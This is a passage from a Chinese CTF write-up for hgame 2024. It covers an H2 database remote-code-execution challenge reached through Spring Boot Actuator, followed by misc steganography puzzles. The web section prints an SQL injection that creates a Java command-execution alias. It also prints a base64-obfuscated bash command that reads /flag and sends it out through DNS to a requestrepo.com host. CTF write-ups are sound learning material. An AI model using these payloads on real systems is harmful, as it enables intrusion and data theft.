 [Spring Boot Actuator H2 RCE漏洞复现](https://cn-sec.com/archives/721279.html)

```
a'; CREATE ALIAS SHELL AS 'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}';'
```

rce，通过dnslog外带

https://requestrepo.com/

```
a';CALL SHELL('bash -c {echo,Y3VybCBgY2F0IC9mbGFnYC5kN3VobWE4ai5yZXF1ZXN0cmVwby5jb20=}|{base64,-d}|{bash,-i}');'
```

![image-20240221225510335](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240221225510335.png)

## misc

### [ek1ng_want_girlfriend]

![image-20240208015452309](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240208015452309.png)

![image-20240208015513833](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240208015513833.png)

![ek1ng](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/ek1ng.jpg)

hgame{ek1ng_want_girlfriend_qq_761042182}

### [ezWord]

将docx文件后缀改为zip并解压

在`\attachment\这是一个word文件\word\media`文件发现提示

![image-20240216175555070](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240216175555070.png)

根据`恭喜.txt`推测为双图隐写

![image-20240216175756724](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240216175756724.png)

得到解压密码

![image-20240220223103455](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240220223103455.png)

`T1hi3sI4sKey`

解压后得到secret.txt文本

![image-20240216175946885](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240216175946885.png)

根据文本特征推测为垃圾邮件编码
